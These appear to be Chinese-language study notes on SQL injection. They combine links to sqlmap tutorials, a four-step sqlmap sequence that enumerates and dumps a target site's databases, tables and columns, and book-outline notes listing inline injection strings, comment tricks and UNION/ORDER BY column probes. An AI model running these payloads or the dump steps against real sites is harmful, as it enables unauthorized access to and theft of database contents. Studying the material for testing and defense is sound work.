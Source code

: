 目录
	SQL注入方法

[使用SQLMAP对网站和数据库进行SQL注入攻击](http://drops.wooyun.org/tips/2113)

[Sqlmap注入技巧收集整理](http://www.lxway.com/4089025404.htm)

[sqlmap 寻找注入点](http://www.lxway.com/931786.html)

[没有注入点，如何拿站](http://www.lxway.com/912111582.htm)

[手工注入](http://www.rising.com.cn/newsletter/news/2012-05-24/11580.html)

[sqlmap](https://github.com/sqlmapproject/sqlmap)

[SQL注入 | 最棒的相关资料汇总](http://mp.weixin.qq.com/s?__biz=MzAwMTUyMjQ5OA==&mid=402619216&idx=1&sn=0c2b3c741449ddb859203ebcc8eb04af&scene=0#wechat_redirect)

[sqlmap手册](https://github.com/sqlmapproject/sqlmap/blob/master/doc/translations/README-zh-CN.md)

# sqlmap步骤
//查数据库
1、sqlmap -u http://www.xxx.com --dbs
//查数据库表
2、sqlmap -u http://www.xxx.com -D 数据库名 --tables
//查数据库表字段
3、sqlmap -u http://www.xxx.com -D 数据库名 -T 表名 --columns
//查数据库字段内容
4、sqlmap -u http://www.xxx.com -D 数据库名 -T 表名 -C 字段名1，字段名2，字段名3 --dump

sql注入攻击与防御 书笔记

# 应用响应
	通用错误：数据库错误回显
	相应代码 500 302
	不同的响应大小

## 2.2.4 sql盲注 P44
## 2.2.6 寻找sql注入漏洞的字符串
## 2.3.2 内联sql注入
	字符串内联注入的特政值：
		‘  
		1’ or '1'='1'	>	1') or('1'='1
		value' or '1'='2 	>	value') or ('1'='2
		1' and '1'='1 	>	1') and ('1'='1
		1' or 'ab'='a'+'b 	>	1') or ('ab'='a'+'b
		1' or 'ab'='a' 'b 	>	1') or ('ab'='a' 'b
		1' or 'ab'='a'||'b>	1') or ('ab'='a'||'b
	数字值内联注入
		‘
		1+1 		>	3-1
		value+0
		1 or 1=1 	>	1)or (1=1
		value or 1=2 	>	value)or(1=2
		1 and 1=2 	>	1)and(1=2
		1 or 'ab'='a'+'b'	>	1)or('ab'='a'+'b'
		1 or 'ab'='a' 'b'	>	1)or('ab'='a' 'b'
		1 or 'ab'='a'||'b'>	1)or('ab'='a'||'b'
	2.33终止式sql注入
		数据库注释语法
			sqlserver oracle	--(double dash)(要求--后有空格)  /**/
			mysql 			# /**/
	2.4 连接运算符
		sqlserver	’a'+'b'='ab'
		mysql 		'a'  'b'  = 'ab'
		Oracle 		'a'||'b' ='ab'
	2.3.4 时间延迟
# 3 复查代码中的SQL注入
# 4 利用SQL注入漏洞
## 自动寻找SQL注入
	4.2 理解常见的利用技术
		使用堆迭查询 http://ferruh.mavituna.com/sql-injection-cheatsheet-oku
	4.3 识别数据库
		4.3.1 非盲跟踪
		4.3.2 盲跟踪P112
	4.4 匹配列
		4.4.1
			?id=12 union select null,null--
			?id=12 order by 1/2/3...
		4.4.2 匹配数据类型P115
	4.5 使用条件语句P120
sql注入攻击和防御
	2.5身份验证中常用特征值P64
